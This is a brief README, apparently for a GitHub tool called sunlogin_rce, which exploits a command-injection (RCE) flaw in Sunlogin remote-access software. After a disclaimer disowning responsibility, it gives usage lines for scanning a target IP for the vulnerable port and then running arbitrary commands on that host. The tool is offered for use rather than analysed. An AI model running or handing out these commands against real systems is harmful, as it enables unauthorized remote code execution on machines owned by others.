 # sunlogin_rce
# 免责声明
仅供学习交流，未经作者许可不得转载
任何因传播和使用本工具而造成的直接或间接后果和损失均由用户自行承担，作者对此不承担任何责任。
# Disclaimer
It is only for learning and communication, and cannot be reproduced without the permission of the author
Any direct or indirect consequences and losses caused by the dissemination and use of this tool are the responsibility of the user, and the author does not assume any responsibility for this.

向日葵 命令注入（rce）利用
sunlogin_rce.exe  -H ip  扫描存在rce端口
sunlogin_rce.exe  -H ip -P rce端口 -C  执行命令
